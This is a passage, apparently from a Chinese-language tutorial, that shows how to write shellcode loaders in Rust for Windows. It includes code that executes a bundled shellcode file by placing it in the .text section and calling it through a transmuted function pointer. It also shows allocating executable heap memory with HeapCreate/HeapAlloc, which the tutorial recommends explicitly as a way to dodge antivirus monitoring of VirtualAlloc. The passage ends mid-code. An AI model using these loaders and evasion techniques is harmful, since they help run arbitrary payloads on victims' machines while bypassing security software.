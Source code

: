 ```plain
                0,
                Some(transmute(ptr)),
                std::ptr::null_mut(),
                0,
                &mut threadid,
            );

            WaitForSingleObject(threadhandle, 0xFFFFFFFF);
        } else {
            println!("执行失败：{}", GetLastError());
        }
    }
}
```

### 函数指针

`link_section`是 Rust 的一个[attribute](https://doc.rust-lang.org/reference/abi.html#the-link_section-attribute)，它用来将特定的函数或者变量放到程序的指定的区块中，`.text`区块通常用来存储程序的执行代码，它会被加载到内存中并由处理器执行。  
然后通过`std::mem::transmute`将 `*const u8` 类型的指针转换为函数类型 `fn()`，最后执行 shellcode。

```plain
fn main() {
    const BUFFER_BYTES:&[u8] = include_bytes!("..\\calc.bin");
    const BUFFER_SIZE:usize = BUFFER_BYTES.len();

    #[link_section = ".text"]
    static BUFFER:[u8;BUFFER_SIZE] = *include_bytes!("..\\calc.bin");
    unsafe{
        let exec = std::mem::transmute::<*const u8,fn()>(&BUFFER as *const u8);
        exec();
    }
}
```

### 通过 heapapi 申请内存

由于`VirtualAlloc`是各大杀软的重点监控对象，所以通常需要使用其他的 API 来替代，下面介绍的是另一个常见的内存申请方式，即通过`HeapCreate/HeapAlloc`的组合来创建内存空间。  
参考：[HeapCreate function](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapcreate), [HeapAlloc function](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-heapalloc)

该方式同样需要先引入依赖，在`Cargo.toml`文件中添加如下依赖：

```plain
[dependencies]
winapi = {version="0.3.9",features=["winuser","heapapi","errhandlingapi"]}
```

该方法通过`HeapCreate`创建`HEAP_CREATE_ENABLE_EXECUTE`权限的内存堆，然后通过`HeapAlloc`来从堆中分配内存空间，最后通过函数指针的方式执行 shellcode。

```plain
use std::mem::transmute;
use winapi::ctypes::c_void;
use winapi::um::errhandlingapi::GetLastError;
use winapi::um::heapapi::HeapAlloc;
use winapi::um::heapapi::HeapCreate;

fn main() {
    let buffer = include_bytes!("..\\calc.bin");

    unsafe {
        let heap = HeapCreate(0x40000, 0, 0);
        let ptr = HeapAlloc(heap, 8, buffer.len());

```